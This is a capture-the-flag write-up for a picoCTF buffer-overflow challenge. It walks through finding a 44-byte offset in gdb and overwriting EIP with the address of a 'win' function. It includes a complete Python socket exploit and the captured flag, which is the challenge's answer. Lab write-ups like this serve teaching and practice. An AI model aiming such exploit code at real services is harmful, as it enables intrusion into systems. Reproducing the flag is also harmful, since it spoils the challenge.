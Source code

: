 # Solution

1. Download the source and the binary file
2. Chmod the binary withg +x 
3. Use gdb to search through the functions (win looks interesting), make note of its memory address
4. Since we know this is likely a buffer overflow, we use pattern create to create a 100byte pattern ```pattern create 100 pattern.txt```
5. Run the binary, in gdb with the input of pattern: ```run < pattern.txt```
5. GDB (peda) tells us that we have an overflow at 44 bytes
6. Create a new pattern with 44 bytes of "A" and 4 bytes of "B"
7. We control EIP as the EIP register has the 4 bytes of "B"'s
8. Create a python exploit with our offset of "A"s and the memory address of the Win function

## Win funciton memory address
```
0x080491f6
```

## exploit.py
```
#!/usr/bin/env python3

import socket
import click
import argparse

click.clear()
parser = argparse.ArgumentParser()

parser.add_argument("host", type=str, help="The hostname of IP address to connect to")
parser.add_argument("port", type=int, help="The port for the service to connect to")

args = parser.parse_args()

#win_function = 0x080491f6

payload = b"A"*44 + b"\xf6\x91\x04\x08"
payload += b"\n"


with socket.socket() as connection:
	connection.connect((args.host, args.port))
	print(connection.recv(4096).decode('utf-8'))
	connection.send(payload)
	print(connection.recv(4096).decode('utf-8'))

```

## Flag
```
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_ad2f467b}
```


